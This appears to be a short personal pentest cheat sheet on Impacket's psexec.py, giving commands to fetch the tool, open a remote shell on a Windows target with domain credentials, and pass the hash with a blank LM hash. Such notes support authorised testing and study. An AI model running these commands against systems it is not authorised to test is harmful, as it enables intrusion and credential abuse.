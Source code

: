 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```python - kali
python3 /usr/share/doc/python3-impacket/examples/psexec.py --help
```

or

```bash - kali
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/psexec.py
```

#### Shell with psexec.py
```python - kali
psexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

#### Passing the hash (blank LM hash)
```bash  - kali
psexec.py $DOMAIN/$USER@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:$HASH
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
